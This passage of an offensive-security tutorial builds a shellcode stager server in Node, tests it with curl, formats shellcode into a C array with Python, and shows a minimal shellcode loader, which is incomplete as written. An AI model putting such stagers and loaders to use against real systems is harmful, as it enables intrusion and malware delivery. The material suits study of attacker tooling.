 Finally we'll tell the server to listen on some ports.

```c
app.listen(8080, () => {})
app.listen(1234, () => {})

console.log("Server is listening")
```

We can start the server with **node index.js**.

Then we can request a payload from the server to verify that it works.

```c
curl localhost:8080/stager/localhost/1234/testing.bin
```

Right now, this will return a binary file containing the shellcode. If we want to format this shellcode then we can do so with some Python.

```python
import sys
shellcodeFile = open(sys.argv[1], "rb")
shellcode = b''
for line in shellcodeFile:
        shellcode += line
cTemplate = """
unsigned char shellcode[] = "%SHELLCODE%";
"""

if(sys.argv[2] == "c"):
    outputFile = open(sys.argv[1].replace('.bin', '.' + sys.argv[2]), "w")
    outputFile.write(cTemplate.replace("%SHELLCODE%", ''.join(['\\x'+hex(c)[2:] for c in shellcode])))
```

If we run this then we'll get a file containing a shellcode array that we can paste into a simple shellcode loader.

![../images/Dynamic_payload_generation_with_mingw/Untitled%207.png](../images/Dynamic_payload_generation_with_mingw/Untitled%207.png)

Below is a simple loader.

```c
int main(){
	unsigned char shellcode[] = "";
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	return 0;
}
```
